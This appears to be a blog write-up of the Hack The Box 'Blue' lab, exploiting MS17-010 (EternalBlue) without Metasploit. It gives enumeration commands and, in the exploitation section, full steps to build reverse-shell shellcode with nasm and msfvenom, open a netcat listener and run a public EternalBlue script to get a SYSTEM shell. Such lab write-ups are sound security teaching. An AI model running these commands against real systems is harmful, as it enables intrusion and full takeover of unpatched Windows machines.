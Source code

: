 ```yaml
---
title: "HTB - Blue without MetaSploit"
date: 2021-01-30T16:37:44+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Blue.png"
aliases:
    - /htb-blue-without-metasploit/
    - /htb-blue/
---
```

A good ol' vuln to get starting!

This will be my first real tutorial, so I'll try to explain the basics of what I am doing. Please bear in mind that I am very new to hacking, probably like you are. I am merely sharing my knowledge and by doing so I am making sure I understood what I did. Please correct me if you find anything wrong, or ask question if you need to! I'll be happy to engage a discussion.

NB : The following notes use $target_ip = IP of the target machine. This is more convenient when machine changes its IP.

A note about “sudo”. I am a firm believer in the “least privileges” methodology, like never use your admin account on AD domain for day to day use, and never use sudo if you don't need to. For example, search a package with “apt search X” and install it wish "sudo apt install X". However, in case of Kali and nmap, I noticed that in quite often requires root depending of the flag you use. Since, I am no expert (yet), I will l run nmap (and many other Kali tools) with sudo! I do not log in as root, but as a regular user I created but I almost always use “sudo”.

I will process simply by following the 5 stages of Ethical Hacking.

##  Recon

Doing HTB boxes, there will be no proper reconnaissance phase; since Googling for the box will obviously leave to solution which we do not want... Let's just say we can use the name to have a guess. Here, a Windows machine called Blue probably means we'll have to deal with MS17-010. So I'll pay close attention to anything related to SMB.

##  Enum

Let's fire a quick nmap scan ;

```text
sudo nmap -T4 -p- $target_ip
```

![](/images/2021/01/2021-01-27_14-21.png)

This quick nmap command will scan for all TCP ports, then, once done we will gather more in depth results by adding -A flag on specified ports (the one that responded from the previous step).

```text
sudo nmap -T4 -A -p $target_ip
```

![](/images/2021/01/2021-01-27_14-22.png)

NB : here, I just ignored some high ports 49xxx/tcp because this is not a real life test and I know that what I am looking for is related to SMB (445/tcp).

In parallel, I like to launch a Nessus basic scan on ALL ports (thanks @tcm for the tips) :

![](/images/2021/01/2021-01-27_13-21.png)

Like we guessed, it seems we will have to play with MS17-010 vuln, let's check that with nmap dedicated script :

```text
sudo nmap --script smb-vuln-ms17-010 $target_ip
```

![](/images/2021/01/2021-01-27_14-35.png)

It is becoming more and clear that this machine is vulnerable to ms17-10.

Since saw some SMB running; let's enumerate it :

NB : note the quadruple "", this is because it normally has only 2 but need escaping each time, hence the 4.

```text
smbclient -L $target_ip
```



![](/images/2021/01/2021-01-27_14-42.png)

Since we found a few share let's try to connect to each one of them anonymously, for example with the share called "Share":

```text
smbclient $target_ipShare
```

![](/images/2021/01/2021-01-27_14-46.png)

Keep notes of what shares you have access to. You may differentiate where you have "listing" access and where you don't.

Now let's try to gain exploit this machine.

##  Gaining Access (exploitation)

My goal is to exploit without MetaSploit, if you don't know why, check this blog post.

Searching on the internet, I came around this GitHub that seems to be able to do the job: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010).

According to the repo we need to install impacket and mysmb, I'll let you do that, then we can use checker.py to see if we find any named pipe (since it is a safe way to exploit this) :

cd into the clone repo then run :

```text
python2 checker.py $target_ip
```

![](/images/2021/01/2021-01-27_14-54.png)

Unfortunately, we have no named pipes available... However, according to the repo :

> **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows &lt; 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
>
> **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
>
> **Eternalromance** requires access to named pipe. The exploit can target Windows &lt; 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
>
> **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

Remember or recon phase and that Blue machine name? Looks like we are facing EternalBlue : we have seen that we have access to $IPC Share, Windows &lt; 8 (Windows 7 here), and port 445/tcp is open.

In order to exploit this we need to use the following (still according to the repo) :

```text
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

The repo tells us that there is 2 shellcode, one for each arch.

However, we are not really sure which arch is our target. So we will assemble both shellcode :

cd into the shellcode dir and :

```text
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

Once this is done, we create our payloads like so :

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -f raw -o sc_x86_msf.bin EXITFUNC=thread msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```

Finally we "join" the two payloads together (with the provided python script from the repo) so that we can check both arch at the same time and hopefully get a shell :

```text
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

[Many thanks to this website for the info on how to assemble the shellcode](https://redteamzone.com/EternalBlue/).

Now start a listener to receive the reverse shell on port 4444 (or the one you used with he msfvenom command):

```text
nc -lvp 4444
```

Let it open and finally, we run our command with the generated sc_all.bin as payload :

```text
python2 eternalblue_exploit7.py $target_ip ./shellcode/sc_all.bin
```

![](/images/2021/01/2021-01-27_15-45_1.png)

Bingo, we have a shell as `SYSTEM`!

![](/images/2021/01/2021-01-27_15-48.png)

Here, in a normal pentest situation, we would make sure to have a way to maintain access. But this is HackTheBox, we will simply harvest our flags. :)

##  Maintaining Access

Not used here. :)

##  Covering Tracks

Not used here. :)